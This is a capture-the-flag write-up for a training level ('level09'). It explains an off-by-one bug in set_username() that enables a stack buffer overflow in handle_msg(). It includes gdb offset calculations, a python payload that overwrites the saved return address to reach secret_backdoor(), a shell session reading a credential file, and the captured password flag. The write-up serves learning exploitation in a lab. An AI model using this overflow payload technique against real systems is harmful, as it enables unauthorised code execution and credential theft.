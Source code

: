 # One byte can cause your end

## Program summary
In this level we are provided with a program which takes as input a username **`set_username()`** and a message **`set_msg()`**, which will be transferred to a certain "@Unix-Dude". It's a fictitious messaging system.

## Vulnerability
The vulnerability at this level resides in **`set_username()`** and is exploitable in **`set_msg()`**.  Let me explain, these two functions will receive the same start of segment of a buffer defined in **`handle_msg()`**, to write the information related to their function. Except that in **`set_msg()`** the length limit of **`strncpy()`** is accessible via **`set_username()`** since it copies one byte too many.

Therefore if the length is set correctly, we can attack with a buffer overflow in the **`handle_msg()`** stack frame.

## Attack design

Two attacks are possible in fact, the first would simply be to use gdb to hijack the instruction register on **`secret_backdoor()`**.

The second is the buffer overflow attack. To do this we must find the sufficient length to reach the location of the saved RIP. Let's look at the buffer address and the RIP location to calculate the offset.

```
Breakpoint 1, 0x000055555555492b in handle_msg ()
(gdb) i f
Stack level 0, frame at 0x7fffffffe4c0:
 rip = 0x55555555492b in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe4d0
 Arglist at 0x7fffffffe4b0, args: 
 Locals at 0x7fffffffe4b0, Previous frame's sp is 0x7fffffffe4c0
 Saved registers:
  rbp at 0x7fffffffe4b0, rip at 0x7fffffffe4b8
(gdb) p $rbp-0xc0
$1 = (void *) 0x7fffffffe3f0
```
***RIP Location*** : 0x7fffffffe4b8  
***Buffer start*** : 0x7fffffffe3f0  
0x7fffffffe4b8 - 0x7fffffffe3f0 = 0xC8 = OFFSET is **200**  

Let's put the *40th* excess copy byte at its maximum simply with **`\xff = 255`** in **`set_username()`**. Now we can copy 255 bytes with **`strncpy()`** since **`buffer start + 0xb4`** points exactly to **`\xff`**, however we will only use 208 bytes (*OFFSET + 64 bits addr*).

```py
python -c 'print "*"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"' > /tmp/boom
```

```
cat /tmp/boom - | ./level09
...
whoami
end
cat /home/users/end/.pass    
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

> Flag : `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
